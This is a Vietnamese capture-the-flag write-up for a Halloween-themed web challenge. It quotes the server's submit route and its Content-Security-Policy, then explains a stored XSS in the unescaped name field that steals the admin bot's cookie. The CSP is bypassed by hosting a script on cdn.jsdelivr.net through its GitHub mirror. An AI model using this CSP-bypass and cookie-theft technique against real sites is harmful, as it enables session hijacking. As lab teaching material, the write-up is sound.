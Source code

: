 ```
router.post('/api/submit', (req, res) => {
    const { halloween_name, email, costume_type, trick_or_treat } = req.body;

    if (halloween_name && email && costume_type && trick_or_treat) {

        return db.party_request_add(halloween_name, email, costume_type, trick_or_treat)
            .then(() => {
                res.send(response('Your request will be reviewed by our team!'));

                bot.visit();
            })
            .catch(() => res.send(response('Something Went Wrong!')));
    }

    return res.status(401).send(response('Please fill out all the required fields!'));
});
```
- Nhận các giá trị như nêu trên say đó thêm vào database nếu chúng tồn tại -> gọi bot để cho nó đi đến admin view

### Flow
- Tạo XSS với giá trị của  {{ request.halloween_name | safe }} cho lưu vào database sau đó bot sẽ đến admin.html và trang này hiển thị payload XSS được lưu vào db của ta -> thực hiện gọi cookie của bot ra ngoài và lấy cờ với jwt.io.

- Nhưng vấn đề lớn nhất ở đây là CSP:

```
app.use(function (req, res, next) {
    res.setHeader(
        "Content-Security-Policy",
        "script-src 'self' https://cdn.jsdelivr.net ; style-src 'self' https://fonts.googleapis.com; img-src 'self'; font-src 'self' https://fonts.gstatic.com; child-src 'self'; frame-src 'self'; worker-src 'self'; frame-ancestors 'self'; form-action 'self'; base-uri 'self'; manifest-src 'self'"
    );
    next();
});
```

- Nhưng có một chỗ có thể lợi dụng ở đây là script cho phép nguồn từ `https://cdn.jsdelivr.net` mà ta có thể control được ở đây -> tạo payload xss -> tạo thẻ <script src="https://cdn.jsdelivr.net/control.js"></script>
- Và cuối cùng chỉ cần đợi bot call giá trị ra thôi.
- Có thể dùng trang web này post js của mình lên vùng nhớ của https://cdn.jsdelivr.net

https://www.jsdelivr.com/github

![image](https://hackmd.io/_uploads/H1rnfPJIC.png)

![image](https://hackmd.io/_uploads/SJy0GvJ8R.png)


![image](https://hackmd.io/_uploads/SydxQvJUR.png)
